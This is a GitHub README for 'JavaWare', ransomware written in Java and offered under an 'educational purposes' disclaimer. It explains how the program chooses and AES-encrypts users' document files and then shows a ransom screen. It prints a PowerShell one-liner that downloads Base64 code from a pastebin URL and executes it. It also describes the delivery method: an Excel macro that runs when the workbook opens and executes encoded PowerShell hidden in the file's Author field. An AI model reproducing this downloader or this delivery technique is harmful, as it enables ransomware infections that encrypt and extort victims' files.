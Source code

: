 # JavaWare
### A Ransomware Built in Java

#### Disclaimer
> I built this purely for **educational purposes**. I take no responsibility and/or liability for how you choose to use any of the code available here. If executing the ransomware, please do not do so on your own machine as it will encrypt your files. Although I did include a function to decrypt, I am in no way responsible. 

JavaWare is a ransomware which will observe your system, learn which files you use, and then encrypt your machine. Once all files have been encrypted it will launch the payload screen. 

![alt text](https://raw.githubusercontent.com/kyralmozley/JavaWare/V1.0/Screenshots/Pay%20Load.png "Launch Screen")

### How does it learn which files I use?
> Maths. 

### How does it encrypt? :lock:
> AES 128 bit Encryption in CBC Mode (Counter Block Mode ) PKCS5 Padding
*AES* is a symmetric encryption algorithm which works on blocks of a fixed size (16 bytes for AES128). *Padding* (PKCS5) is used if the block is less than 16 bytes long. We split the stream into 16 byte blocks, which is encrypted using AES and the result is XORed with the next block in the stream before it is encrypted. For the first block, it XORs it with an *initialization vector*, a random 16 byte value. 

### What does it encrypt?
> *FileTypes.java* defines what type of files to encrypt, it includes common document types and so will avoid program files to ensure your system is still functional. Similarly, *AvoidedDir.java* includes directories to avoid in traversal, such as *Windows* and *Program Files*. The PowerShell script is: 
```powershell
Powershell Invoke-Expression -Command  $([string]([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String((Invoke-WebRequest -Uri https://pastebin.com/raw/1JDNWfqP).content)
```

### How does it launch?
The Microsoft Excel file, *August Report.xlsm* contains a Macro which is run on Workbook Open. Encoded Base64 PowerShell code is hidden within this file under the 'Author' field. So the macro calls a function which gets the author, decodes it, and then runs the shell. 
###



java --module-path "C:\Users\Admin\Desktop\JavaWare\javafx-sdk-11.0.2\lib\" --add-modules=javafx.controls -jar Users\Admin\Desktop\JavaWare\JavaWare.jar


references: 
https://www.symantec.com/content/dam/symantec/docs/security-center/white-papers/increased-use-of-powershell-in-attacks-16-en.pdf
